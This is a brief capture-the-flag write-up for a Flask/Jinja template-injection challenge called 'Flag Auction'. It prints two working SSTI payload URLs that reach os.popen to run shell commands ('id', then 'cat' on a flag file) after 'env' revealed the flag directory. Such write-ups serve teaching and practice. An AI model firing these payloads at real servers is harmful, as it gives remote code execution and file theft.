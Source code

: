 # Flag Auction
SSTI challenge without any apparent blacklist or filters, the harder part was to find where the flag was. 

```
https://web.ctf.devclub.in/web/4/buy/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('id').read()%7D%7D?
```

to run the `id` command. We have RCE. Finding the flag took a while but found it when I randomly decided to run the env command. We find an
environment variable `FLAG_DIR=/srv/http/app2/src`. 

```
https://web.ctf.devclub.in/web/4/buy/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('cat%20/srv/http/app2/src/required_file').read()%7D%7D?
```

gives the flag.

